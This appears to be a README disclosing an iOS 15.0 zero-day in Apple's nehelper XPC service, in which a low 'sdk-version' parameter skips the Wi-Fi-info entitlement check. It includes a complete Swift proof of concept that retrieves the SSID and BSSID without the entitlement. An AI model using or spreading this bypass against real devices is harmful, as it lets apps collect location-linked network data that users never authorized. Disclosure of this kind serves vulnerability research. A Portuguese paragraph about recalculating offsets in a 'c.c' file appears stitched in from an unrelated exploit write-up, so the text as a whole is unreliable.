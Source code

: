 # Nehelper Wifi Info 0-day (iOS 15.0)

 No entanto, isso significa que agora esse código é específico da versão do iOS e possivelmente específico do modelo do dispositivo. Portanto, se não funcionar no seu dispositivo, recalcule e atualize os deslocamentos em `c.c` file.

XPC endpoint `com.apple.nehelper` accepts user-supplied parameter `sdk-version`, and if its value is less than or equal to 524288, `com.apple.developer.networking.wifi-info` entiltlement check is skipped.
Ths makes it possible for any qualifying app (e.g. posessing location access authorization) to gain access to Wifi information without the required entitlement.
This happens in `-[NEHelperWiFiInfoManager checkIfEntitled:]` in `/usr/libexec/nehelper`.

```
func wifi_info() -> String? {
    let connection = xpc_connection_create_mach_service("com.apple.nehelper", nil, 2)
    xpc_connection_set_event_handler(connection, { _ in })
    xpc_connection_resume(connection)
    let xdict = xpc_dictionary_create(nil, nil, 0)
    xpc_dictionary_set_uint64(xdict, "delegate-class-id", 10)
    xpc_dictionary_set_uint64(xdict, "sdk-version", 1) // may be omitted entirely
    xpc_dictionary_set_string(xdict, "interface-name", "en0")
    let reply = xpc_connection_send_message_with_reply_sync(connection, xdict)
    if let result = xpc_dictionary_get_value(reply, "result-data") {
        let ssid = String(cString: xpc_dictionary_get_string(result, "SSID"))
        let bssid = String(cString: xpc_dictionary_get_string(result, "BSSID"))
        return "SSID: \(ssid)\nBSSID: \(bssid)"
    } else {
        return nil
    }
}
```
